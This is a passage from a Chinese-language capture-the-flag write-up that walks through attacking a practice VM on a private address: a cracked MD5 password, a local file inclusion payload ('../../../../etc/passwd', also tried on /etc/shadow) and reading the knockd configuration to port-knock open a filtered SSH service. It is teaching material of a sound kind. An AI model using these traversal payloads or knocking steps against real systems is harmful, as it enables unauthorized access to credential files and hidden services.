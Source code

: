 反查md5发现是 transorbital1

登上去以后发现能Add Record

![image-20200115154745245](C:\Users\Eki\Projects\ctf-notes\assets\images\image-20200115154745245.png)

最下方居然有个File does not exist

提醒我们是不是存在本地文件包含漏洞

试一下加个file参数

```
http://192.168.31.222/addrecord.php?file=../../../../../../../etc/passwd
```

发现底部果然返回了文件内容

![image-20200115155021258](C:\Users\Eki\Projects\ctf-notes\assets\images\image-20200115155021258.png)

都加x了,没啥用

再读一下../../../../../../../etc/shadow

读不出来，（想也没有权限。。。。

接下去怎么办呢

我们前面看nmap的时候发现还存在ssh服务

但是处于filter状态，

怎么连上ssh呢

了解到knock这种东西

>knockd 监视一个预定义模式在iptables的日志,
>
>例如一次击中端口6356,一次击中端口63356,两次击中端口9356,
>
>这相当于敲一个关闭的门用一种特殊的暗码来被konckd识别,
>
>konckd 将使用iptables来打开一个预定义端口
>
>例如ssh的22端口在一个预定定义时间.(比如一分钟),如果一个ssh session 在这个时间范围内打开,这个端口会一直保留.直到预定义时间过期后ssh端口被knockd关掉.

可以读到其配置文件 ../../../../../../../etc/knockd.conf

```txt
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 
```

所以我们只要这样就可以打开ssh了

```shell
root@kali:~# knock 192.168.31.222 7469 8475 9842 #对应sequence
root@kali:~# nmap -p22 192.168.31.222
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 16:09 CST
Nmap scan report for 192.168.31.222
Host is up (0.00031s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:3D:D1:6F (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```
